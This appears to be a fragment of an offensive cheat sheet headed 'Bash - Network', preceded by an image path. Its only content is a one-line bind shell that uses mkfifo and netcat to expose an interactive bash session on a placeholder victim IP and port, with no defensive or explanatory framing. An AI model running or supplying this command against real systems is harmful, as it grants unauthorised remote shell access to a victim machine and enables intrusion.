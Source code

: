 # Bash - Network

## Bash - bind shell to TCP session
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <VICTIM IP> <PORT > /tmp/f
```
